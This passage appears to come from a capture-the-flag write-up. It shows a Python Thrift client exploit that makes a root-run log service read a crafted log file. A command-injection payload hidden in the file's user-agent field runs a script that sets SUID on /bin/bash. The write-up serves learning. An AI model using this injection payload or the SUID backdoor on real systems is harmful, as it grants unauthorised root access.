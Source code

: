 ```python
from thrift import Thrift  
from thrift.transport import TSocket  
from thrift.transport import TTransport  
from thrift.protocol import TBinaryProtocol  
from log_service import LogService  # Import generated Thrift client code  
  
def main():  
    # Set up a transport to the server  
    transport = TSocket.TSocket('localhost', 9090)  
  
    # Buffering for performance  
    transport = TTransport.TBufferedTransport(transport)  
  
    # Using a binary protocol  
    protocol = TBinaryProtocol.TBinaryProtocol(transport)  
  
    # Create a client to use the service  
    client = LogService.Client(protocol)  
  
    # Open the connection  
    transport.open()  
  
    try:  
        # Specify the log file path to process  
        log_file_path = "/tmp/bad.log"  
  
        # Call the remote method ReadLogFile and get the result  
        response = client.ReadLogFile(log_file_path)  
        print("Server response:", response)  
  
    except Thrift.TException as tx:  
        print(f"Thrift exception: {tx}")  
  
    # Close the transport  
    transport.close()  
  
if __name__ == '__main__':  
    main()
```
- After that I created two files
	- One is `bad.log` file with this as content
```bash
999.9.9.9 "user-agent":"'; /bin/bash /tmp/bad.sh #"
```
- Second is `bad.sh` file with this
```bash
chmod +s /bin/bash
```
- Transferred both the files to the `/tmp` folder of the target system and also gave appropriate permissions
    - From the host hosted a python server
![Pasted image 20241231022629.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241231022629.png?raw=true)
    - From the target system
![Pasted image 20241231022800.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241231022800.png?raw=true)
- All complications are over. 
![it's-Over](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExZjd4ZHUxbnJoaGV0N3ExNGN4Z29jazhtNThxaW91cHk4dzNqN3A1MiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/l0ErLeqamV3UOARsA/giphy.gif)
- By now if client.py is executed it will speak with the Log-service and make it to read the file `/tmp/bad.log`
- As the file contains malicious code. It will make the Log-service to execute a script named `bad.sh` as root. 
- The script will give SUID permissions to `/bin/bash` making it to be executed as root by anyone.
- Fired the script successfully